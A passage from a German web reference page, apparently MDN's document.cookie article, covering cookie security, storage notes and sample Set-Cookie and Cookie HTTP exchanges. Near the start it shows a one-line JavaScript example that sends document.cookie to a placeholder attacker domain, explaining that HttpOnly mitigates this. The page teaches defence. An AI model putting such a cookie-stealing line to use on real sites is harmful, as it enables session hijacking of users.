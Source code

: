 ```js
new Image().src = `http://www.evil-domain.com/steal-cookie.php?cookie=${document.cookie}`;
```

Das `HTTPOnly`-Cookie-Attribut kann helfen, diesen Angriff zu mildern, indem es den Zugriff auf den Cookie-Wert durch JavaScript verhindert.
Lesen Sie mehr über [Cookies und Sicherheit](https://humanwhocodes.com/blog/2009/05/12/cookies-and-security/).

## Hinweise

- Ab Firefox 2 ist ein besserer Mechanismus für die clientseitige Speicherung verfügbar - [WHATWG DOM Storage](/de/docs/Web/API/Web_Storage_API).
- Sie können ein Cookie löschen, indem Sie seine Ablaufzeit auf null ändern.
- Beachten Sie, dass je mehr Cookies Sie haben, desto mehr Daten zwischen dem Server und dem Client für jede Anfrage übertragen werden.
  Dies wird jede Anfrage verlangsamen.
  Es wird dringend empfohlen, [WHATWG DOM Storage](/de/docs/Web/API/Web_Storage_API) zu verwenden, wenn Sie "nur-Client"-Daten speichern möchten.
- [RFC 2965](https://datatracker.ietf.org/doc/html/rfc2965) (Abschnitt 5.3, "Implementation Limits") spezifiziert, dass es **keine maximale Länge** der Schlüssel- oder Wertgröße eines Cookies geben sollte und ermutigt Implementierungen, **beliebig große Cookies** zu unterstützen.
  Das Maximum der Implementierung jedes Browsers wird notwendigerweise unterschiedlich sein, konsultieren Sie daher die Dokumentation der einzelnen Browser.

Der Grund für die [Syntax](#syntax) der `document.cookie` Accessor-Eigenschaft liegt in der Client-Server-Natur von Cookies, die sich von anderen Client-Client-Speichermethoden unterscheidet (wie z.B. [localStorage](/de/docs/Web/API/Web_Storage_API)):

### Der Server teilt dem Client mit, ein Cookie zu speichern

```bash
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: cookie_name1=cookie_value1
Set-Cookie: cookie_name2=cookie_value2; expires=Sun, 16 Jul 3567 06:23:41 GMT

[content of the page here]
```

### Der Client sendet seine zuvor gespeicherten Cookies an den Server zurück

```bash
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: cookie_name1=cookie_value1; cookie_name2=cookie_value2
Accept: */*
```

## Spezifikationen
